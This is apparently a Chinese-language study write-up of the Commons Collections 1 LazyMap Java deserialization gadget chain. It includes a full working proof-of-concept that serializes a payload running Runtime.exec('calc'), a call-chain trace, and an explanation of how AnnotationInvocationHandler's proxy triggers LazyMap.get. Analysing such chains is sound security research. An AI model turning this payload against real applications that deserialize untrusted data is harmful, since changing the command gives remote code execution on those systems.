

# lazymap链

## POC

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

public class CommonCollections12 {
    public static Object generatePayload() throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map innermap = new HashMap();
        innermap.put("value", "xxx");
        Map outmap = LazyMap.decorate(innermap,transformerChain);
        //通过反射获得AnnotationInvocationHandler类对象
        Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //通过反射获得cls的构造函数
        Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
        //这里需要设置Accessible为true，否则序列化失败
        ctor.setAccessible(true);
        //通过newInstance()方法实例化对象
        InvocationHandler handler = (InvocationHandler)ctor.newInstance(Retention.class, outmap);
        Map mapProxy = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),LazyMap.class.getInterfaces(),handler);
        Object instance = ctor.newInstance(Retention.class, mapProxy);

        return instance;
    }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 调用链

```
ObjectInputStream.readObject()
            AnnotationInvocationHandler.readObject()
                Map(Proxy).entrySet()
                    AnnotationInvocationHandler.invoke()
                        LazyMap.get()
                            ChainedTransformer.transform()
                                ConstantTransformer.transform()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Class.getMethod()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.getRuntime()
                                InvokerTransformer.transform()
                                    Method.invoke()
                                        Runtime.exec()
```

这里的后半段和前面一样,所以我们只用看前面就行了

## lazymap

在lazymap中有一个get方法,可以执行factory成员的transform方法,这里



这里factory可控,if条件也挺好进入的,将我们传入的map不要有后面传入的key就行



我们接下来只需要找到一个readObject方法调用了该get方法即可

## AnnotationInvocationHandler



其实在该类中的readObject方法中并没有找到能有直接引用map的get方法的,但是有一个invoke中可以执行get方法,这就需要引入一点点java代理的知识



这里就简单的提一下:

```java
InvocationHandler handler = new ExampleInvocationHandler(new HashMap()); //创建一个InvocationHandler接口的对象
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler); //第一个参数为类加载器,第二个参数类型,第三个参数传入我们的接口
当我们引用proxyMap中的方法时,会先在handler中的invoke方法中进行修饰,执行invoke里的代码
```

我们的memberValues成员为lazymap对象(memberValues的赋值在构造函数中,且我们可控),当我们执行到下面这里的时候,就会触发代理机制,然后进入Invoke方法,从而触发命令执行



## 流程图



## 调试时遇到的问题

有时在进行调试的时候我是没有进入if语句的,但也莫名奇妙的弹出了计算器,而且按照我们原本的思路是应该进入if语句的(super.map中是不含我们的key的)



然后后面切换了一下打断点的位置又可以进去了,我认为这里是因为在调试的时候会调用一些方法,从而影响了我们的调试(这个坑搞了我大半天,希望不要有人跟我一样卡在同样的位置了呜呜呜)

# 结语

CC1很重要,后面几条链子后半段几乎都是用CC1的


